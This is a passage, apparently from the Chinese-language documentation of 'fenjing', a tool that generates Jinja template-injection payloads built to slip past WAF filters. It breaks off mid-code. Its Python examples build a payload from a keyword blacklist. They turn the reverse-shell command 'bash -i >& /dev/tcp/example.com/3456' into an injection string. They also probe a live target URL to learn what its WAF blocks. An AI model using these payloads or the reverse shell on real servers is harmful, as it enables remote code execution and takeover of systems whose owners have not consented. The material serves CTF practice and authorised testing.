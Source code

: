 ```python
```

也可以这样直接给定表达式而不是给定字符串的值

```python
import fenjing

def waf(s):
    return "/" not in s

full_payload_gen = fenjing.FullPayloadGen(waf)
payload, will_print = full_payload_gen.generate(fenjing.const.EVAL, (fenjing.const.LITERAL, '"1"+"2"'))
if not will_print:
    print("这个payload不会产生回显")
print(payload)
```

### 根据WAF函数生成shell指令对应的payload

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str): # 如果字符串s可以通过waf则返回True, 否则返回False
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word not in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    # config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    # print(f"{config_payload=}")
```

### 在不获取WAF黑名单的情况下，根据返回页面中的特征生成payload

比如说如果提交的payload被WAF后，WAF页面含有"BAD"这三个字母，那么可以这么写：

```python
import functools
import time
import requests
from fenjing import exec_cmd_payload


URL = "http://10.137.0.28:5000"


@functools.lru_cache(1000)
def waf(payload: str):  # 如果字符串s可以通过waf则返回True, 否则返回False
    time.sleep(0.02) # 防止请求发送过多
    resp = requests.get(URL, timeout=10, params={"name": payload})
    return "BAD" not in resp.text


if __name__ == "__main__":
    shell_payload, will_print = exec_cmd_payload(
```